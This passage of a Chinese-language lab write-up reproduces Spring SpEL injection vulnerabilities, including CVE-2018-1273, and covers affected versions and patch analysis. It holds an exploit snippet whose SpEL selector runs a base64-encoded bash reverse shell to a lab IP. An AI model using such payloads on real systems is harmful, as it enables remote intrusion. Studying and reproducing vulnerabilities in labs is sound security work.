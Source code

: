修改exp中的靶机ip和反弹命令

    
    
    sockjs = SockJS('http://192.168.1.10:8080/gs-guide-websocket')sockjs.send('subscribe', {    'selector': "T(java.lang.Runtime).getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}')",

如图所示

![]()

运行poc.py即可得到反弹shell

![](https://gitee.com/fuli009/images/raw/master/public/20210817102003.png)

# CVE-2018-1273

Spring Data Commons远程命令执行(CVE-2018-1273)，当用户在项目中利用了Spring-
data的相关web特性对用户的输入参数进行自动匹配的时候，会将用户提交的form表单的key值作为Spel的执行内容而产生漏洞

## 影响版本

Spring Data Commons 1.13 - 1.13.10 (Ingalls SR10) Spring Data REST 2.6 -
2.6.10 (Ingalls SR10) Spring Data Commons 2.0 to 2.0.5 (Kay SR5) Spring Data
REST 3.0 - 3.0.5 (Kay SR5)

## 漏洞分析

这里直接看补丁进行分析，这是一个spel表达式注入漏洞。补丁的内容如下：

![](https://gitee.com/fuli009/images/raw/master/public/20210817102004.png)

补丁大致就是将StandardEvaluationContext替代为SimpleEvaluationContext，由于StandardEvaluationContext权限过大，可以执行任意代码，会被恶意用户利用。

SimpleEvaluationContext的权限则小的多，只支持一些map结构，通用的jang.lang.Runtime,java.lang.ProcessBuilder都已经不再支持。

## 漏洞复现

首先进入CVE-2018-1273的docker环境

![](https://gitee.com/fuli009/images/raw/master/public/20210817102005.png)

访问http://192.168.1.10:8080/users并用bp抓包

![](https://gitee.com/fuli009/images/raw/master/public/20210817102006.png)

这里随便填一下Username跟Password

![]()

生成一个shell.sh文件

